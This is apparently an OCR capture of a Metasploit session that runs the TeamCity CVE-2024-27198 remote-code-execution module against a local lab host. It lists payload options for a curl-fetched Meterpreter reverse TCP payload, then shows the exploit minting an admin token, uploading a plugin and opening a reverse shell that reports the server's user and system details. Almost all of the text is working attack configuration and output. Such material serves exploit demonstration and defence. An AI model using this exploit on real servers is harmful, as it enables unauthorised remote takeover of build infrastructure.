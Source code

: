 ```
   RHOSTS             192.168.86.43    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              8111             yes       The target port (TCP)
   SSL                false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI          /                yes       The base path to TeamCity
   TEAMCITY_ADMIN_ID  1                yes       The ID of an administrator account to authenticate as
   VHOST                               no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      cWStJXIvdtmM     no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               eth0             yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   3   Linux Command



View the full module info with the info, or info -d command.

msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.NVAxemdUTVFnSlp4Um1jdkN5Yi12dk1wNkJR.NTIyNTA1NjgtOWM3Zi00YzdiLTkzMTEtYTc2Y2ZkZjRjYTVl
[*] Uploading plugin: CyGZ1ME5
[*] Sending stage (3045380 bytes) to 192.168.86.43
[*] Deleting the plugin...
[*] Meterpreter session 4 opened (192.168.86.42:4444 -> 192.168.86.43:55572) at 2024-02-23 14:24:37 +0000
[*] Deleting the authentication token...
[!] This exploit may require manual cleanup of '/opt/TeamCity/work/Catalina/localhost/ROOT/TC_147512_CyGZ1ME5' on the target
[!] This exploit may require manual cleanup of '/home/teamcity/.BuildServer/system/caches/plugins.unpacked/CyGZ1ME5' on the target

meterpreter > getuid
Server username: teamcity
meterpreter > sysinfo
Computer     : 192.168.86.43
OS           : Ubuntu 22.04 (Linux 6.5.0-15-generic)
Architecture : x64
```